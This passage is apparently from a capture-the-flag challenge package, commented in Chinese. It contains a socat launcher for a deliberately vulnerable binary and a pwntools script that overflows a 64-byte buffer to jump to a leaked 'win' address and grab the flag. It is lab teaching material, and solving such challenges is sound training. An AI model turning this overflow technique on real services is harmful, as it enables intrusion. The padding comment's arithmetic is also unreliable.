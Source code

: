 ```bash
#!/bin/bash
# docker/start.sh
# 使用 socat 提供 nc 服務
exec socat TCP-LISTEN:9999,reuseaddr,fork EXEC:"./vuln",pty,stderr
```

### 4. 解題腳本

```python
# solution/solve.py
#!/usr/bin/env python3
from pwn import *

# 設定連線
HOST = 'localhost'
PORT = 9999

def solve():
    # 建立連線
    if args.REMOTE:
        io = remote(HOST, PORT)
    else:
        io = process('./vuln')
    
    # 如果需要 debug
    if args.DEBUG:
        gdb.attach(io, '''
        break vulnerable_function
        continue
        ''')
    
    # 接收初始輸出並提取 win 函數位址
    output = io.recvuntil(b'目標函數位置: ')
    win_addr = int(io.recvline().strip(), 16)
    log.info(f"Win function address: {hex(win_addr)}")
    
    # 構造 payload
    padding = b'A' * 76  # 64 bytes buffer + 8 bytes rbp + 4 bytes alignment
    win_addr_bytes = p64(win_addr)
    
    payload = padding + win_addr_bytes
    
    log.info(f"Payload length: {len(payload)}")
    log.info(f"Sending payload...")
    
    # 發送 payload
    io.sendline(payload)
    
    # 接收 flag
    try:
        response = io.recvall(timeout=2)
        print(response.decode())
        
        # 尋找 flag
        if b'is1abCTF{' in response:
            flag_start = response.find(b'is1abCTF{')
            flag_end = response.find(b'}', flag_start) + 1
            flag = response[flag_start:flag_end].decode()
            log.success(f"Flag found: {flag}")
            return flag
    except:
        log.error("Failed to receive flag")
    
```